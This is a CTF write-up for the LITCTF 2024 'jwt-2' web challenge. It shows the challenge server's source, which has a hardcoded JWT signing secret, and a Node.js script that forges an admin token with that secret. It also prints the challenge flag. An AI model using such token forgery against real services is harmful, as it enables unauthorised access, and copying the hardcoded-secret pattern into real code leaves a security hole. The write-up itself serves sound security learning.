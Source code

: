 ```yaml
---
title: "LITCTF24 - Jwt 2"
date: 2024-08-13T18:49:06+01:00
tags: ["ctf", "write-up"]
author: "hxuu"
showToc: true
TocOpen: false
draft: false
hidemeta: false
comments: false
description: "CTF write-up for Jwt 2"
canonicalURL: ""
disableHLJS: false
disableShare: false
hideSummary: false
ShowReadingTime: true
ShowBreadCrumbs: true
ShowPostNavLinks: true
ShowRssButtonInSectionTermList: true
UseHugoToc: true
editPost:
    URL: "https://github.com/hxuu/content"
    Text: "Suggest Changes"
    appendFilePath: true
---
```


## Challenge Description

```
name: jwt-2
category: web
points: 117
```

its like jwt-1 but this one is harder URL: http://litctf.org:31777/

## Solution

The description is very clear, the vulnerability should be in how the signature
is handled, but instead of no verification at all, we should expect something harder
this time.

My first hunch tells me to brute force the key used to generate the jwt token, but
we're actually given the source code.

```typescript
import express from "express";
import cookieParser from "cookie-parser";
import path from "path";
import fs from "fs";
import crypto from "crypto";

const accounts: [string, string][] = [];

const jwtSecret = "xook";
const jwtHeader = Buffer.from(
  JSON.stringify({ alg: "HS256", typ: "JWT" }),
  "utf-8"
)
  .toString("base64")
  .replace(/=/g, "");

const sign = (payload: object) => {
  const jwtPayload = Buffer.from(JSON.stringify(payload), "utf-8")
    .toString("base64")
    .replace(/=/g, "");
    const signature = crypto.createHmac('sha256', jwtSecret).update(jwtHeader + '.' + jwtPayload).digest('base64').replace(/=/g, '');
  return jwtHeader + "." + jwtPayload + "." + signature;

}

const app = express();

const port = process.env.PORT || 3000;

app.listen(port, () =>
  console.log("server up on http://localhost:" + port.toString())
);

app.use(cookieParser());
app.use(express.urlencoded({ extended: true }));

app.use(express.static(path.join(__dirname, "site")));

app.get("/flag", (req, res) => {
  if (!req.cookies.token) {
    console.log('no auth')
    return res.status(403).send("Unauthorized");
  }

  try {
    const token = req.cookies.token;
    // split up token
    const [header, payload, signature] = token.split(".");
    if (!header || !payload || !signature) {
      return res.status(403).send("Unauthorized");
    }
    Buffer.from(header, "base64").toString();
    // decode payload
    const decodedPayload = Buffer.from(payload, "base64").toString();
    // parse payload
    const parsedPayload = JSON.parse(decodedPayload);
		// verify signature
		const expectedSignature = crypto.createHmac('sha256', jwtSecret).update(header + '.' + payload).digest('base64').replace(/=/g, '');
		if (signature !== expectedSignature) {
			return res.status(403).send('Unauthorized ;)');
		}
    // check if user is admin
    if (parsedPayload.admin || !("name" in parsedPayload)) {
      return res.send(
        fs.readFileSync(path.join(__dirname, "flag.txt"), "utf-8")
      );
    } else {
      return res.status(403).send("Unauthorized");
    }
  } catch {
    return res.status(403).send("Unauthorized");
  }
});

app.post("/login", (req, res) => {
  try {
    const { username, password } = req.body;
    if (!username || !password) {
      return res.status(400).send("Bad Request");
    }
    if (
      accounts.find(
        (account) => account[0] === username && account[1] === password
      )
    ) {
      const token = sign({ name: username, admin: false });
      res.cookie("token", token);
      return res.redirect("/");
    } else {
      return res.status(403).send("Account not found");
    }
  } catch {
    return res.status(400).send("Bad Request");
  }
});


app.post('/signup', (req, res) => {
  try {
    const { username, password } = req.body;
    if (!username || !password) {
      return res.status(400).send('Bad Request');
    }
    if (accounts.find(account => account[0] === username)) {
      return res.status(400).send('Bad Request');
    }
    accounts.push([username, password]);
    const token = sign({ name: username, admin: false });
    res.cookie('token', token);
    return res.redirect('/');
  } catch {
    return res.status(400).send('Bad Request');
  }
});
```

The code creates a JWT-based authentication system using a fixed secret key (`jwtSecret = "xook"`) to sign tokens.

- **Key Use:** The key `"xook"` is used in HMAC SHA-256 to create a signature for the JWT. This signature ensures that the token's integrity can be verified when it's received. If the JWT signature doesn't match the expected signature (generated using the same key), access is denied.

So as you can see, the key is given to us, we just need to extract the code that
creates a valid jwt token from the latter source code, supply the username we used
to access the website, and admin set to True. The code that does that would look something
like this:

```js
const crypto = require('crypto')

// Define the secret key used in signing
const jwtSecret = "xook";

// Function to generate JWT
const sign = (payload) => {
  // Encode the payload to base64
  const jwtPayload = Buffer.from(JSON.stringify(payload), "utf-8")
    .toString("base64")
    .replace(/=/g, "");

  // Create the JWT header (in base64 format without '=')
  const header = Buffer.from(
    JSON.stringify({ alg: "HS256", typ: "JWT" }),
    "utf-8"
  )
    .toString("base64")
    .replace(/=/g, "");

  // Generate the HMAC SHA-256 signature
  const signature = crypto.createHmac('sha256', jwtSecret)
    .update(header + '.' + jwtPayload)
    .digest('base64')
    .replace(/=/g, '');

  // Return the full JWT token
  return header + "." + jwtPayload + "." + signature;
}

// Test payload
const testPayload = { username: "hxuu", admin: true };

// Generate a token
const token = sign(testPayload);

// Output the generated token
console.log("Generated JWT Token:", token);
```

Running the code above gives a valid token. We just have to replace the cookies given
by the application by our newly crafted token, and then pressing GET FLAG.

![flag](/blog/images/2024-08-13-19-02-45.png)

---

flag is: `LITCTF{v3rifyed_thI3_Tlme_1re4DV9}`

Things learned:

* how to weak key can result into compromising jwt tokens
